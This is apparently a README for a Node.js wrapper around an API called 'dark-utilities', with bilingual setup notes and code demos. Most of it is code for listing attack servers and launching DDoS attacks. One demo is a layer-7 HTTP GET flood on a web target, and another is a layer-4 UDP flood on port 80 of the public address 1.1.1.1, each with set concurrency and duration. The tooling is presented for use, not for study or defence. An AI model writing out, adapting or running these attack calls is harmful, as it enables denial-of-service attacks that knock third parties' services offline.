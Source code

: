 # Dark-Utilities API Node-Js
 Description :
   * -> Using the dark-utilities API in node js
   * -> Utilisation de l'API dark-utilities en node js

 ### Dependencies npm :
  * [phin](https://www.npmjs.com/package/phin "lien")

 ### Require :
  * -> [Node-Js](https://www.digitalocean.com/community/tutorials/how-to-install-node-js-on-ubuntu-20-04-fr)
 
### Installation :
  * To use it you need to have dark-utilities and install phin

### Quick Demos

Get User Information
```js
darkutilities.getUserInfo().then(info => {
    console.log(info);
});
```

Get Server List
```js
darkutilities.getServerList().then(server => {
    console.log(server);
});
```

Get Server Info
```js
darkutilities.getServerInfo('fd06d2f5192fd94341543d15ae8158bb').then(server => {
    console.log(server);
});
```

Send attack ddos-layer7
```js
darkutilities.sendAttack('ddos-layer7', {
    'method': 'GET',
    'target': 'https://exemple.com/hit',
    'concurrents': 100,
    'time': 20
}, [
    { "server_id": "fd06d2f5192fd94341543d15ae8158bb", 'server_selected': true },
]).then(attack => {
    console.log(attack);
});
```

Send attacks ddos-layer4
```js
darkutilities.sendAttack('ddos-layer4', {
    'method': 'UDP',
    'target': '1.1.1.1',
    'port': 80,
    'concurrents': 10,
    'time': 20
}).then(attack => {
    console.log(attack);
});
```

Get Attack List
```js
darkutilities.getAttacks().then(attacks => {
    console.log(attacks);
});
```
